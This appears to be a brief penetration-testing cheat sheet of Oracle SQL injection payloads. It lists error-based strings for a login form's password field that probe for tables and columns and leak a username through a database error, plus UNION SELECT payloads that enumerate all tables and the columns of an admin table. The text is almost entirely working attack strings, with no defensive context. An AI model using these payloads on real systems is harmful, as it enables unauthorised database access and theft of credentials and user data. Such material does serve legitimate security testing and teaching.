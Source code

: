 ### Oracle

Error based SQL injections

check if table exists
```
username=wrong&password=wrong'||(SELECT '' FROM users WHERE ROWNUM = 1)||'--
```

test if column exists in the table 

```
username=wrong&password=wrong'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM web_users WHERE user_name like 'ilhilh')||'--
```

generate error message containing the information

```
username=wrong&password=wrong' and ctxsys.drithsx.sn(1,(select user_name from web_users where rownum = 1)) is null--
```


union select

```
author' order by 3 --

author=eriasdasdac' union select table_name, null, null from all_tables --

author=eriasdasdac' union select column_name, null, null from all_tab_columns where table_name = 'WEB_ADMINS' --
```